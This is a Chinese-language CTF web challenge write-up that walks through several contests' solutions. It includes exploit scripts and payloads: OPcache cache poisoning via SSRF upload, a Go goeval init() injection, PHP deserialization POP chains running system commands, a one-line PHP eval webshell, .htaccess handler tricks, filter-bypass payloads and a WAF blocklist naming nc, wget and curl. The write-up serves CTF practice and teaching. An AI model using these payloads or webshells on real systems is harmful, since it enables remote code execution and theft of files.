# WEB# [DASCTF X 0psu3 十一月挑战赛｜越艰巨・越狂热] single_php根据提示，可以传 LuckyE 变量，它的值可以试试 show_source

看似是反序列化，但咱无法 getshell，因为就算能够成功也只是执行函数
根据提示，进入 siranai.php
发现是一个文件上传

由于有对 $_SERVER['REMOTE_ADDR'] 的检测，所以直接抓包伪造绕过不太现实，只能考虑 SSRF
分析后面代码，发现可以上传压缩包并且可以解压，但是它是放置在 tmp 目录下的临时文件，因此文件名注入命令行不通
可以考虑 OPCACHE 缓存文件来进行 RCE（我并不会，因为听都没听过😭）
# 啥是 OPCACHE 呢😕它是一个 PHP 扩展，通过保存预编译的脚本字节码到共享内存中来提高 PHP 的执行效率，减少了每次加载和编译 PHP 脚本的开销
先进入到 phpinfo() 看看 opcache_file_cache_only 有没有开
反序列化脚本如下：
1 2 3 4 5 6 7 8 9 <?php class siroha public $koi = array ("zhanjiangdiyishenqing" =>"phpinfo" ); } $a = new siroha ();echo serialize ($a );?>
结果为 O:6:"siroha":1:{s:3:"koi";a:1:{s:21:"zhanjiangdiyishenqing";s:7:"phpinfo";}}

相关设置是开着的，可以直接上手
# 如何拉一个配置大致相同的镜像这里我们插入一段小插曲，因为这里对后面的解题很重要
官方的镜像在这里 ，找到 8.2.10 就行（如果找不到可以问问 gpt8.2.10 镜像的名字是啥，不过一般都是 php: 版本号 - cli）
dockerfile 如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 FROM php:8.2 .10 -cliRUN docker-php-ext-install opcache RUN { \ echo 'opcache.memory_consumption=128' ; \ echo 'opcache.interned_strings_buffer=8' ; \ echo 'opcache.max_accelerated_files=4000' ; \ echo 'opcache.revalidate_freq=2' ; \ echo 'opcache.fast_shutdown=1' ; \ echo 'opcache.enable_cli=1' ; \ } > /usr/local/etc/php/conf.d/opcache-recommended.ini RUN mkdir -p /var/www/cache/opcache && chown -R www-data:www-data /var/www/cache/opcache COPY opcache.ini $PHP_INI_DIR /conf.d/ WORKDIR /var/www/html COPY . /var/www/html CMD [ "php" , "-S" , "0.0.0.0:8000" ]
opcache.ini 文件如下
1 2 3 4 opcache.enable=1 opcache.file_cache_only=1 # 指定缓存目录 opcache.file_cache=/var/www/cache/opcache
同目录下可以写一个内容为 <? phpinfo();?> 的 index.php，这样可以方便查看需要的功能有没有打开之类的
打开 opcache 后必须要指定缓存目录，否则容器会启动失败
做完这些后直接跑 docker，看看能否正常运行

ok，可以进入容器内部寻找我们需要的东西了

这里 index.php.bin 文件是 index.php 的编译缓存，作用前面说过，不多赘述
我们先看看题目上的时间戳是多少

然后转换为十六进制，把文件拖入 010 改一下

# 怎么计算 systemid先说说为什么要计算 systemid
计算 System ID 通常是为了确保攻击者生成的恶意 Opcache 缓存文件与目标系统的 Opcache 配置兼容。每个系统的 Opcache 配置可能不同，包括文件路径、权限等，而 System ID 可能被用作确保缓存文件与特定系统设置相匹配的一种方式。
根据其他博客和官方 wp，大致可以得出 systemid 有以下几部分
PHP Version Zend Extension ID Zend Bin ID php 的官方源码中也有，可以去看看 zend_system_id.c
1 2 3 4 5 6 7 8 9 10 11 12 13 14 void zend_startup_system_id (void ) { PHP_MD5Init(&context); PHP_MD5Update(&context, PHP_VERSION, sizeof (PHP_VERSION)-1 ); PHP_MD5Update(&context, ZEND_EXTENSION_BUILD_ID, sizeof (ZEND_EXTENSION_BUILD_ID)-1 ); PHP_MD5Update(&context, ZEND_BIN_ID, sizeof (ZEND_BIN_ID)-1 ); if (strstr (PHP_VERSION, "-dev" ) != 0 ) { PHP_MD5Update(&context, __DATE__, sizeof (__DATE__)-1 ); PHP_MD5Update(&context, __TIME__, sizeof (__TIME__)-1 ); } zend_system_id[0 ] = '\0' ; }
由题目可知
PHP Version = 8.2.10，Zend Extension ID = API420220829,NTS，Zend Bin ID = BIN_48888
实际上可以用一个工具，php7-opcache-override-master

得出 systemid 后，就可以生成一个 tar 压缩包了
在题目的 phpinfo() 我们可以看到系统指定的缓存目录为 /tmp，这里就用 python 来 SSRF 了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 import binasciiimport hashlibimport requestsimport reimport tarfileimport subprocessimport ossys_id = '00c2d2752120e3de9b90bf0eb5fcfcb9' def tar_file (): tar_filename = 'exp.tar' with tarfile.open (tar_filename,'w' ) as tar: directory_info = tarfile.TarInfo(name=f'{sys_id} /var/www/html' ) directory_info.type = tarfile.DIRTYPE directory_info.mode = 0o777 tar.addfile(directory_info) tar.add('index.php.bin' , arcname=f'{sys_id} /var/www/html/index.php.bin' ) tar_file() url = 'http://b6361428-f413-4d94-b4d3-0d5932e326ca.node5.buuoj.cn:81/?LuckyE=show_source' def upload (): file = {"file" :("exp.tar" ,open ("exp.tar" ,"rb" ).read(),"application/x-tar" )} res = requests.post(url=url,files=file) print (res.request.headers) return res.request request_content = upload() upload_body = str (request_content.body).replace("\"" ,"\\\"" ) content_length = request_content.headers['Content-Length' ] print (content_length)print (upload_body)

然后把报文的 body 部分复制到 SoapClient 里面进行报文伪造
不过后面复现失败了，暂时找不到原因，先放着（伪造的脚本可以去看看官方文档 ）
# [VNCTF2023] 电子木鱼这道题考的是 rust 整数溢出，当 rust 某一个数值超过它所规定的范围后，如果是在 release 模式下运行，程序就不会报错，而是以环绕的形式展现出结果。例如 u8 是指无符号数八位，范围为 [0,255]，如果一个数为 255，后面再加 1 输出，那么这个时候程序返回的就是 0，就是从终到始。相应的，如果是 0 减 1，那么返回的就是 255，就是从始到终。
题目给了一个压缩包，我们重点看 main.rs
拿到 flag 的条代码是
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 #[get("/")] async fn index(tera: web::Data<Tera>) -> Result<HttpResponse, Error> { let mut context = Context::new(); context.insert("gongde", &GONGDE.get()); if GONGDE.get() > 1_000_000_000 { context.insert( "flag", &std::env::var("FLAG").unwrap_or_else(|_| "flag{test_flag}".to_string()), ); } match tera.render("index.html", &context) { Ok(body) => Ok(HttpResponse::Ok().body(body)), Err(err) => Err(error::ErrorInternalServerError(err)), } }
我们需要功德大于 1000000000 才能拿到 flag
观察 /upgrade 路由
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 #[post("/upgrade")] async fn upgrade(body: web::Form<Info>) -> Json<APIResult> { if GONGDE.get() < 0 { return web::Json(APIResult { success: false, message: "功德都搞成负数了，佛祖对你很失望", }); } if body.quantity <= 0 { return web::Json(APIResult { success: false, message: "佛祖面前都敢作弊，真不怕遭报应啊", }); } if let Some(payload) = PAYLOADS.iter().find(|u| u.name == body.name) { let mut cost = payload.cost; if payload.name == "Donate" || payload.name == "Cost" { cost *= body.quantity; } if GONGDE.get() < cost as i32 { return web::Json(APIResult { success: false, message: "功德不足", }); } if cost != 0 { GONGDE.set(GONGDE.get() - cost as i32); } if payload.name == "Cost" { return web::Json(APIResult { success: true, message: "小扣一手功德", }); } else if payload.name == "CCCCCost" { return web::Json(APIResult { success: true, message: "功德都快扣没了，怎么睡得着的", }); } else if payload.name == "Loan" { return web::Json(APIResult { success: true, message: "我向佛祖许愿，佛祖借我功德，快说谢谢佛祖", }); } else if payload.name == "Donate" { return web::Json(APIResult { success: true, message: "好人有好报", }); } else if payload.name == "Sleep" { return web::Json(APIResult { success: true, message: "这是什么？床，睡一下", }); } } web::Json(APIResult { success: false, message: "禁止开摆", }) }
这里发现当你要 “Donate” 或 “Cost” 时，cost 的值会乘上你发送的 quantity
在 PAYLOADS 中，有关 cost 的值如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 const PAYLOADS: &[Payload] = &[ Payload { name: "Cost", cost: 10, }, Payload { name: "Loan", cost: -1_000, }, Payload { name: "CCCCCost", cost: 500, }, Payload { name: "Donate", cost: 1, }, Payload { name: "Sleep", cost: 0, }, ];
根据这些信息，可以利用先求功德，后减功德来达到整数溢出的目的，这里 cost 已经表明范围了，是有符号的 32 位数
即 - 2147483648~2147483647
根据前面说的，只要我们功德扣的够多，就能够达到整数溢出，不然就会报功德不足

然后扣（注意这里 quantity 并不是无限大，它也是需要在 i32 范围内的）

得出来的这个数就是（1000-quantity*10）。这里 10 是指 name=Cost 时 cost 的值，payload 里面有的，quantity 就是你传的数了
成功造成整数溢出
# [VNCTF2023]BabyGo给了一个文件，只有 main.go 值得分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 package mainimport ( "encoding/gob" "fmt" "github.com/PaulXu-cn/goeval" "github.com/duke-git/lancet/cryptor" "github.com/duke-git/lancet/fileutil" "github.com/duke-git/lancet/random" "github.com/gin-contrib/sessions" "github.com/gin-contrib/sessions/cookie" "github.com/gin-gonic/gin" "net/http" "os" "path/filepath" "strings" ) type User struct { Name string Path string Power string } func main () r := gin.Default() store := cookie.NewStore(random.RandBytes(16 )) r.Use(sessions.Sessions("session" , store)) r.LoadHTMLGlob("template/*" ) r.GET("/" , func (c *gin.Context) userDir := "/tmp/" + cryptor.Md5String(c.ClientIP()+"VNCTF2023GoGoGo~" ) + "/" session := sessions.Default(c) session.Set("shallow" , userDir) session.Save() fileutil.CreateDir(userDir) gobFile, _ := os.Create(userDir + "user.gob" ) user := User{Name: "ctfer" , Path: userDir, Power: "low" } encoder := gob.NewEncoder(gobFile) encoder.Encode(user) if fileutil.IsExist(userDir) && fileutil.IsExist(userDir+"user.gob" ) { c.HTML(200 , "index.html" , gin.H{"message" : "Your path: " + userDir}) return } c.HTML(500 , "index.html" , gin.H{"message" : "failed to make user dir" }) }) r.GET("/upload" , func (c *gin.Context) c.HTML(200 , "upload.html" , gin.H{"message" : "upload me!" }) }) r.POST("/upload" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userUploadDir := session.Get("shallow" ).(string ) + "uploads/" fileutil.CreateDir(userUploadDir) file, err := c.FormFile("file" ) if err != nil { c.HTML(500 , "upload.html" , gin.H{"message" : "no file upload" }) return } ext := file.Filename[strings.LastIndex(file.Filename, "." ):] if ext == ".gob" || ext == ".go" { c.HTML(500 , "upload.html" , gin.H{"message" : "Hacker!" }) return } filename := userUploadDir + file.Filename if fileutil.IsExist(filename) { fileutil.RemoveFile(filename) } err = c.SaveUploadedFile(file, filename) if err != nil { c.HTML(500 , "upload.html" , gin.H{"message" : "failed to save file" }) return } c.HTML(200 , "upload.html" , gin.H{"message" : "file saved to " + filename}) }) r.GET("/unzip" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userUploadDir := session.Get("shallow" ).(string ) + "uploads/" files, _ := fileutil.ListFileNames(userUploadDir) destPath := filepath.Clean(userUploadDir + c.Query("path" )) for _, file := range files { if fileutil.MiMeType(userUploadDir+file) == "application/zip" { err := fileutil.UnZip(userUploadDir+file, destPath) if err != nil { c.HTML(200 , "zip.html" , gin.H{"message" : "failed to unzip file" }) return } fileutil.RemoveFile(userUploadDir + file) } } c.HTML(200 , "zip.html" , gin.H{"message" : "success unzip" }) }) r.GET("/backdoor" , func (c *gin.Context) session := sessions.Default(c) if session.Get("shallow" ) == nil { c.Redirect(http.StatusFound, "/" ) } userDir := session.Get("shallow" ).(string ) if fileutil.IsExist(userDir + "user.gob" ) { file, _ := os.Open(userDir + "user.gob" ) decoder := gob.NewDecoder(file) var ctfer User decoder.Decode(&ctfer) if ctfer.Power == "admin" { eval, err := goeval.Eval("" , "fmt.Println(\"Good\")" , c.DefaultQuery("pkg" , "fmt" )) if err != nil { fmt.Println(err) } c.HTML(200 , "backdoor.html" , gin.H{"message" : string (eval)}) return } else { c.HTML(200 , "backdoor.html" , gin.H{"message" : "low power" }) return } } else { c.HTML(500 , "backdoor.html" , gin.H{"message" : "no such user gob" }) return } }) r.Run(":80" ) }
分析重点在 /upload ， /unzip 和 /backdoor 。由于上传文件的类型中不能有 .go 和 .gob ，加上有个解压功能，因此可以考虑将恶意代码写入一个 go 文件后进行压缩，然后再解压到任意路径下，最后获得 backdoor 的权限实现 getshell
（path 可控是因为 c.Query ("path") 相当于 $_GET ["path"]）
# backdoor 的权限获取分析 /backdoor ，发现需要 user.gob 来进行提权，那就可以考虑能不能覆盖。
注意到 /upload 中会删除之前存在的同名文件，然后上传新文件，可以利用这点进行覆盖
大致思路清楚了，我们直接上手
怎么生成文件的代码已经给我们了，直接照搬照抄就行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package mainimport ( "encoding/gob" "os" ) type User struct { Name string Path string Power string } func main () gobfile, _ := os.Create("user.gob" ) user := User{Name: "ctfer" , Path: "/tmp/c641fceaxxxxxx/" , Power: "admin" } encoder := gob.NewEncoder(gobfile) encoder.Encode(user) }
得到 user.gob
压缩后上传并进行解压

去 /backdoor 看看有没有覆盖成功

成功覆盖
# go 沙盒逃逸这里先不具体说，目前只需要知道这题目的漏洞点在 eval, err := goeval.Eval("", "fmt.Println(\"Good\")", c.DefaultQuery("pkg", "fmt")) 就可以了。
在 go 中，系统执行的第一个函数一般是 main() ，但是 init() 是个例外，它能在 main() 之前调用
根据这个，我们就可以写脚本了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package mainimport ( "fmt" "os/exec" ) func init () cmd := exec.Command("/bin/sh" , "-c" , "cat /f*" ) res, err := cmd.CombinedOutput() fmt.Println(err) fmt.Println(string (res)) } const ( Message = "fmt" )
但是我们需要的是 import ( 后面的一部分，goeval 的源码在这里 ，可以想想为什么
实际上在源码的 func main() 中，传入的包是以依次拼接的形式构成的，而在开始时 importStr 就已经被定义成了 import ( 了，传入的数据会依次拼接在它后面。所以我们只需要注意怎么闭合符号即可
提一句，最后一部分加 const 也是为了闭合后面的 ")，然后将其稍微修改一下
1 os/exec"%0A"fmt")%0Afunc%09init()%7B%0Acmd:=exec.Command("/bin/sh","-c","cat${IFS}/f*")%0Ares,err:=cmd.CombinedOutput()%0Afmt.Println(err)%0Afmt.Println(res)%0A}%0Aconst(%0AMessage="fmt

python 脚本将 ascii 码转换为 chr 即可
# [VNCTF2023] 象棋王子签到难度的 jsfuck，找到对应代码后放到控制台 print 就行

# [DASCTF X GFCTF 2022 十月挑战赛！] EasyPOP
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 <?php highlight_file (__FILE__ );error_reporting (0 );class fine private $cmd ; private $content ; public function __construct ($cmd , $content { $this ->cmd = $cmd ; $this ->content = $content ; } public function __invoke ( { call_user_func ($this ->cmd, $this ->content); } public function __wakeup ( { $this ->cmd = "" ; die ("Go listen to Jay Chou's secret-code! Really nice" ); } } class show public $ctf ; public $time = "Two and a half years" ; public function __construct ($ctf { $this ->ctf = $ctf ; } public function __toString ( { return $this ->ctf->show (); } public function show (string { return $this ->ctf . ": Duration of practice: " . $this ->time; } } class sorry private $name ; private $password ; public $hint = "hint is depend on you" ; public $key ; public function __construct ($name , $password { $this ->name = $name ; $this ->password = $password ; } public function __sleep ( { $this ->hint = new secret_code (); } public function __get ($name { $name = $this ->key; $name (); } public function __destruct ( { if ($this ->password == $this ->name) { echo $this ->hint; } else if ($this ->name = "jay" ) { secret_code::secret (); } else { echo "This is our code" ; } } public function getPassword ( { return $this ->password; } public function setPassword ($password void { $this ->password = $password ; } } class secret_code protected $code ; public static function secret ( { include_once "hint.php" ; hint (); } public function __call ($name , $arguments { $num = $name ; $this ->$num (); } private function show ( { return $this ->code->secret; } } if (isset ($_GET ['pop' ])) { $a = unserialize ($_GET ['pop' ]); $a ->setPassword (md5 (mt_rand ())); } else { $a = new show ("Ctfer" ); echo $a ->show (); }
这里我顺着分析吧，感觉倒着分析比倒着分析要简单
__invoke() 触发条件是：当尝试以调用函数的方式调用其所在的对象时
__get() 触发条件是：当读取一个对象中不可访问或者不存在的属性时
__call() 触发条件是：当调用一个对象不存在的属性或者不可访问的方法时
__wakeup() 触发条件是：当所在的对象要被反序列化时
__sleep() 触发条件是：当所在的对象要被序列化时
首先，sorry 类有 __destruct() ，入口在这里
由于题目事先设置了一个随机密码，可以用取地址 & 绕过
1 2 $a ->setPassword (md5 (mt_rand ()));
然后 hint 是 echo 出来的，恰好 show 类中有 __toString() ，就顺着它走了
1 2 3 4 5 public function __toString ( { return $this ->ctf->show (); }
调用了 show() ，secret_code 类有这个函数
1 2 3 4 5 6 7 8 9 10 11 public function __call ($name , $arguments { $num = $name ; $this ->$num (); } private function show ( { return $this ->code->secret; }
其实 show 类也有，只不过他没啥用撒:happy:
但是其他类中没有 secret 这个变量，有也只是 function，猜测这个时候就是要用到 __get() 了，于是调到 sorry 类
1 2 3 4 5 6 public function __get ($name { $name = $this ->key; $name (); }
这里把 $name 当成函数调用了，那就是 __invoke() 了，跳转到 fine 类
1 2 3 4 5 6 7 8 9 10 11 public function __invoke ( { call_user_func ($this ->cmd, $this ->content); } public function __wakeup ( { $this ->cmd = "" ; die ("Go listen to Jay Chou's secret-code! Really nice" ); }
注意到这里有 __wakeup() ，所以在序列化之后还要绕过它，改个参数就好了，比如对象个数啥的
pop 链如下：
sorry::destruct() -> show::toString()->secret_show::show()->sorry::get()->fine::invoke()
脚本如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <?php class fine private $cmd ; private $content ; public function __construct ($cmd , $content { $this ->cmd = $cmd ; $this ->content = $content ; } } class secret_code protected $code ; public function __construct ($code { $this ->code = $code ; } } class show public $ctf ; } class sorry private $name ; private $password ; public function __construct ( { $this ->name = &$this ->password; $this ->password = 1 ; } } $a = new sorry ();$b = new secret_code ($a );$c = new show ();$d = new sorry ();$a ->key = new fine ('system' ,'cat /f*' );$c ->ctf = $b ;$d ->hint = $c ;$str = str_replace ("fine\":2" ,"fine\":3" , serialize ($d ));echo urlencode ($str );
这里不能直接用序列化后的字符串是因为在 php 中，属性为 protected 和 private 的变量在序列化之后经过 url 编码时会被加上不可见字符，可以去搜一搜，网上挺多文章的。不过养成习惯，还是最好都用 url 编码后的字符串交上去
# [NewStarCTF 2023 公开赛道] R!C!E!
1 2 3 4 5 6 7 8 9 10 11 12 <?php highlight_file (__FILE__ );if (isset ($_POST ['password' ])&&isset ($_POST ['e_v.a.l' ])){ $password =md5 ($_POST ['password' ]); $code =$_POST ['e_v.a.l' ]; if (substr ($password ,0 ,6 )==="c4d038" ){ if (!preg_match ("/flag|system|pass|cat|ls/i" ,$code )){ eval ($code ); } } }
代码逻辑很简单，非法传参和 md5 碰撞罢了
MD5 这里可以直接爆破
1 2 3 4 5 6 7 8 import hashlibdef decode (str1 ): for i in range (0 ,500000 ): if (hashlib.md5(str (i).encode("UTF-8" )).hexdigest())[0 :6 ] == "c4d038" : print (i) break decode("c4d038" )
爆破出来是 114514
# 非法传参在 php 版本小于 8 时，php 处理名字带有 . 、 空格 、 [ 、 ] 等符号的变量名时，会将第一个符号转化为下划线 _ ，但是不会改变后续的符号
php 版本大于 8 时，php 会将所有符号转化为下划线 _
这里我们并不知道 php 版本，但是根据变量名可以猜测 php 版本为 7.x，因为我们目标的变量名是 e_v.a.l ，如果 php 版本大于 8，那么在转换的时候会将变量名的符号全部转换为 _ ，这样会导致变量名不一致而导致传参失败
这里在 POST 时传名字 e [.v.a.l

这里的 waf 相当于一个纸老虎，执行命令 tac /f * 即可（不确定的可以用 find 函数）
用 find 查找 flag 结果如下：

1 2 3 4 5 6 7 8 /sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS0/flags /sys/devices/platform/serial8250/tty/ttyS3/flags /sys/devices/platform/serial8250/tty/ttyS1/flags /sys/devices/virtio-mmio-cmdline/virtio-mmio.3/virtio3/net/eth0/flags /sys/devices/virtual/net/lo/flags /usr/include/linux/flat.h /flag
# [NewStarCTF 2023 公开赛道] EasyLogin打开登录界面，发现并没有注入点，正常注册登录就行

这里出题人做了一个 shell，开始时我们进入的是一个聊天程序，你发什么它回你什么
Ctrl+D 退出程序
经过搜索发现并没有什么有用的

并且 bin 中就这几个命令，且根目录只有 bin 和 home
有点一筹莫展了
抓个包看看登录界面
在发包时注意到有一个 /passport 包

里面似乎有 flag，但我们看不到
可能是权限问题？也只能猜猜
之前在注册时发现 admin 被注册了，试试能不能用弱密码
发现能成功，密码是 000000
再重新抓包
302 跳转，得到 flag

# [NewStarCTF 2023 公开赛道] Begin of HTTP这里就不多说了，http 头的有关描述在官方档案 里，放操作

secret 看源代码





# [NewStarCTF 2023 公开赛道] Begin of Upload一道朴实无华的文件上传，步骤无非就是：写🐴，抓包，改后缀绕过，访问文件，RCE

这里说一下我为什么传 php 会成功
可以分析源码

这里这里的检查位于前端，用 js 写成的，我们用火狐的插件 Javascript Switcher 直接把 js 给 ban 了就行，这样就不会过滤了
有的时候，文件上传功能也会用 js 编写，所以这种工具在使用时要具体情况具体分析
🐴的路径有了，可直接访问

我这里写🐴是 <?php eval($_POST['cmd']);?>
# [NewStarCTF 2023 公开赛道] Begin of PHP
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 <?php error_reporting (0 );highlight_file (__FILE__ );if (isset ($_GET ['key1' ]) && isset ($_GET ['key2' ])){ echo "=Level 1=<br>" ; if ($_GET ['key1' ] !== $_GET ['key2' ] && md5 ($_GET ['key1' ]) == md5 ($_GET ['key2' ])){ $flag1 = True; }else { die ("nope,this is level 1" ); } } if ($flag1 ){ echo "=Level 2=<br>" ; if (isset ($_POST ['key3' ])){ if (md5 ($_POST ['key3' ]) === sha1 ($_POST ['key3' ])){ $flag2 = True; } }else { die ("nope,this is level 2" ); } } if ($flag2 ){ echo "=Level 3=<br>" ; if (isset ($_GET ['key4' ])){ if (strcmp ($_GET ['key4' ],file_get_contents ("/flag" )) == 0 ){ $flag3 = True; }else { die ("nope,this is level 3" ); } } } if ($flag3 ){ echo "=Level 4=<br>" ; if (isset ($_GET ['key5' ])){ if (!is_numeric ($_GET ['key5' ]) && $_GET ['key5' ] > 2023 ){ $flag4 = True; }else { die ("nope,this is level 4" ); } } } if ($flag4 ){ echo "=Level 5=<br>" ; extract ($_POST ); foreach ($_POST as $var ){ if (preg_match ("/[a-zA-Z0-9]/" ,$var )){ die ("nope,this is level 5" ); } } if ($flag5 ){ echo file_get_contents ("/flag" ); }else { die ("nope,this is level 5" ); } }
参考 payload： GET /?key1[]=1&key2[]=2&key4[]=1&key5=2024s 、 POST key3[]=1&flag5=.
# [NewStarCTF 2023 公开赛道] 泄漏的秘密直接找 www.zip 即可
# [NewStarCTF 2023 公开赛道] RC E!!git 信息泄露，用 Githack 可以得到文件
1 2 3 4 5 6 7 8 9 10 11 <?php highlight_file (__FILE__ );if (';' === preg_replace ('/[^\W]+\((?R)?\)/' , '' , $_GET ['star' ])) { if (!preg_match ('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i' ,$_GET ['star' ])){ eval ($_GET ['star' ]); } }
综上，这是一道无参 RCE，我们只需要引用函数并理解如何嵌套函数即可
由于 scandir 、 var_dump 、 get_defined_vars 被过滤，且函数处理不了参数，这时候可以考虑 getallheaders()
传入 ?star=eval(next(getallheaders())); ，这里是先获取 HTTP 请求头的信息，然后用 next() 调用下一个元素（指请求头中的某个元素），把这个元素当做参数传给 eval() 执行（这里 eval 是能处理参数的，因为它匹配的是 [^\W] ，而 next(getallheaders()) 匹配的是 (?R)? ，不能处理参数，只能调用函数）

发现目标是修改 UA（User-Agent），然后命令执行即可
# [NewStarCTF 2023 公开赛道] Upload again!过滤了 php 后缀的文件，同时还对文件内容作检查，用 <script language="php"> 绕过

这里我们不能直接访问 1.jpg 来 getshell，需要用.htaccess 文件，该文件可以实现的功能包括但不限于：用户自动重定向、自定义错误页面、改变你的文件扩展名等等。
1 2 SetHandler application/x-httpd-php
上传后访问 1.jpg 即可 getshell

# [NewStarCTF 2023 公开赛道] Unserialize？
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php highlight_file (__FILE__ );class evil private $cmd ; public function __destruct ( { if (!preg_match ("/cat|tac|more|tail|base/i" , $this ->cmd)){ @system ($this ->cmd); } } } @unserialize ($_POST ['unser' ]); ?>
简单的反序列化，注意上传的时候要 URL 编码
1 2 3 4 5 6 7 8 <?php class evil private $cmd = 'nl /*' ; } $a = new evil ();echo (urlencode (serialize ($a )));?>
（还没测试，在写题目的时候平台正在维护，于是就跑步去了）
（平台有点问题，我还以为写错了，把 wp 搬上去之后发现也没有回显）
# [NewStarCTF 2023 公开赛道] include 0。0文件包含有多种方法，这里就说最常见的一个：伪协议 base64 编码直接读取
源码过滤了 base，用 url 双编码绕过： ?file=php://filter/read=convert.bas%256564-encode/resource=flag.php （把 e 编码两次）
# [NewStarCTF 2023 公开赛道] 游戏高手在控制台内将 gameScore 改为 100000 以上的数字就行（gameScore 可以在调试器内看）

# [NewStarCTF 2023 公开赛道] GenShin抓包发现响应头有文件

根据提示传一个 name 进去

也许是 ssti，看看有没有

被过滤了，应该是存在 ssti 的。
测试发现 % 没有被过滤，可以用 {%print%} 输出

看看子类有什么可以用的

由于 init 被过滤掉了，考虑用 attr 绕过


找到 popen 之后就可以操作了

这题我没有检测出来空格是否被过滤掉，因为 cat /flag 中间有空格会报 400，不知是什么原因。
对了，popen 也被过滤掉了
# [NewStarCTF 2023 公开赛道] R!C !E!!!
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php highlight_file (__FILE__ );class minipop public $code ; public $qwejaskdjnlka ; public function __toString ( { if (!preg_match ('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i' , $this ->code)){ exec ($this ->code); } return "alright" ; } public function __destruct ( { echo $this ->qwejaskdjnlka; } } if (isset ($_POST ['payload' ])){ unserialize ($_POST ['payload' ]); }
exec 函数在浏览器中是没有反应的，所以只能靠写文件的方式把命令的运行结果表示出来
脚本如下：
1 2 3 4 5 6 7 8 9 10 <?php class minipop public $code = "ls /|te''e /var/www/html/2.txt" ; public $qwejaskdjnlka ; } $a = new minipop ();$a ->qwejaskdjnlka = $a ;echo (serialize ($a ));?>
# [NewStarCTF 2023 公开赛道] medium_sql过滤的部分可以考虑大小写绕过
由于在考虑联合注入的时候提示说不能用 union，那多半是盲注了
